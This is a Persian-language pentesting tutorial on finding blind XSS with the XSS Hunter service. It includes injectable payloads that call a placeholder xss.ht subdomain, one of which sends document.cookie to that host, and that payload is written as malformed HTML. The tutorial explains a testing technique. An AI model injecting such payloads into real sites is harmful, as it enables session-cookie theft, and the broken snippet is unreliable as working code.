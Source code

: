 ## XSS Hunter

آسیب‌پذیری XSS Hunter در تست نفوذ وب به معنای شناسایی و بهره‌برداری از نوع خاصی از XSS به نام Blind XSS است که اجرای کد مخرب در مرورگر قربانی به صورت غیرمستقیم و در زمان‌های بعدی رخ می‌دهد. برای کشف این آسیب‌پذیری معمولاً از سرویس‌ها و ابزارهایی مثل XSS Hunter استفاده می‌شود که به تست نفوذگر اجازه می‌دهد پیلودهای XSS را در نقاط مختلف برنامه تزریق کند و در صورت اجرای آن‌ها، گزارش و لاگ دریافت کند.

روش پیدا کردن آسیب‌پذیری با استفاده از XSS Hunter
ثبت نام و دریافت دامنه اختصاصی XSS Hunter

با ثبت نام در سرویس XSS Hunter، یک دامنه اختصاصی (مثلاً yoursubdomain.xss.ht) دریافت می‌کنید که باید در پیلودهای XSS خود از آن استفاده کنید.

تزریق پیلودهای XSS حاوی دامنه XSS Hunter

پیلودهایی مانند:

```bash
<script src="https://yoursubdomain.xss.ht/xss.js"></script>
```
یا

```bash
<img src="https://yoursubdomain.xss.ht/log?cookie="+document.cookie>
```

این پیلودها را در بخش‌های مختلف برنامه تزریق می‌کنید: فرم‌ها، پارامترهای URL، هدرها (مثل User-Agent)، کوکی‌ها و هر جایی که امکان ورود داده وجود دارد.

صبر و انتظار برای اجرای پیلود

برخلاف XSS معمولی که بلافاصله اجرا می‌شود، Blind XSS ممکن است در زمان‌های بعدی و در بخش‌های دیگر برنامه (مثلاً پنل مدیریت، لاگ‌ها، سیستم‌های مانیتورینگ) اجرا شود.

وقتی پیلود اجرا شود، درخواست به دامنه اختصاصی شما ارسال می‌شود و XSS Hunter آن را ثبت می‌کند.

دریافت گزارش اجرا و تحلیل آن

در پنل XSS Hunter می‌توانید لاگ‌ها، اطلاعات مرورگر قربانی، کوکی‌ها و سایر داده‌های مرتبط با اجرای پیلود را مشاهده کنید.

این اطلاعات به شما کمک می‌کند تا آسیب‌پذیری Blind XSS را تایید و گزارش کنید.

نکات مهم
Blind XSS معمولاً در بخش‌هایی رخ می‌دهد که داده‌های ورودی کاربر ذخیره شده ولی بلافاصله نمایش داده نمی‌شوند، مانند لاگ‌ها، سیستم‌های مانیتورینگ، ایمیل‌ها یا پنل‌های مدیریت.

استفاده از XSS Hunter و سرویس‌های مشابه باعث می‌شود که نیازی به دسترسی مستقیم به مرورگر قربانی نداشته باشید و بتوانید به صورت غیرمستقیم آسیب‌پذیری را اثبات کنید.

در تست‌های حرفه‌ای، ترکیب XSS Hunter با ابزارهایی مثل Burp Suite، XSpear و Dalfox رایج است.

خلاصه
XSS Hunter ابزاری برای شناسایی و اثبات آسیب‌پذیری Blind XSS است.

با تزریق پیلودهای حاوی دامنه اختصاصی XSS Hunter در نقاط مختلف برنامه، منتظر اجرای آن در زمان‌های بعدی می‌مانید.

پس از اجرای پیلود، گزارش و اطلاعات مربوطه در پنل XSS Hunter قابل مشاهده است.

این روش به ویژه برای کشف XSSهای پنهان و Blind بسیار موثر است.

منبع:
مطابق با تجربه تست نفوذ در Google Analytics و گزارش‌های امنیتی، تست نفوذگران با استفاده از XSS Hunter پیلودهای Blind XSS را تزریق کرده و پس از مدت زمان انتظار، اجرای آن‌ها را دریافت و آسیب‌پذیری را گزارش کرده‌اند.
همچنین ابزارهایی مانند XSpear از XSS Hunter برای تست Blind XSS پشتیبانی می‌کنند
